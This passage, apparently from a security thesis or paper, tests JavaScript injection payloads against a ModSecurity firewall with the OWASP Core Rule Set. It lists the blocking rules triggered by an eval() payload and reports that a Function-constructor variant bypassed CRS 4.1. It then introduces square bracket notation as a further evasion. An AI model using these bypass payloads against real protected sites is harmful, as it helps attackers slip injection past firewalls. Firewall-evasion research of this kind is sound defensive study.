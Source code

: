 \begin{lstlisting}[style=basicStyle, language=Python]
eval('alert' + '(`concatenation`)')
\end{lstlisting}
When sent in a request directed to the web application protected by the evaluated web application firewall, this payload triggered the following blocking firewall rules:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=eval() blocked, label={lst:evalblocked}]
<payload>"eval('alert' + '(`concatenation`)')"</payload>

<message>"PHP Injection Attack: High-Risk PHP Function Call Found"</message>
<file>"/rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf"</file>
<fileDetails>[line "331"] [id "933160"]<fileDetails>
<MatchedData>"eval('alert'   '(`concatenation`)')"</MatchedData>

<message>"Node.js Injection Attack 1/2"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "52"] [id "934100"]<fileDetails>
<MatchedData>"eval("</MatchedData>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf"</file>
<fileDetails>[line "748"] [id "941390"]<fileDetails>
<MatchedData>"eval("</MatchedData>
\end{lstlisting}
It is apparent, that usage of the \verb|eval()| function is heavily blacklisted. Therefore, \verb|eval()| has been substituted by the \verb|Function()| constructor, as stated under Section~\ref{sec:functionconstructor}, in order to obscure the payload:

\begin{lstlisting}[style=basicStyle, language=Python, caption=Function() constructor bypass, label={lst:funconbypass}]
[].constructor.constructor('alert'+'(`concatenation`)')()
\end{lstlisting}
The obscured payload successfully bypassed the ModSecurity firewall using \acrshort{crs} 4.1. Therefore, using the \verb|Function()| constructor is considered effective against the evaluated firewall configuration.

\subsubsection{Square Bracket Notation}
\label{sec:functionconstructorsingleevasbn}
The square bracket notation proposed under Section~\ref{sec:sbn} can be used to substitute the dot notation in statements accessing object properties. When using the \verb|Function()| constructor, as mentioned under Section~\ref{sec:functionconstructor}, access to object properties is neccessary. Using the square bracket notation in such a case can potentially cause payloads, that previously triggered rules matching on usage of the \verb|Function()| constructor via dot notation, to evade such rules.

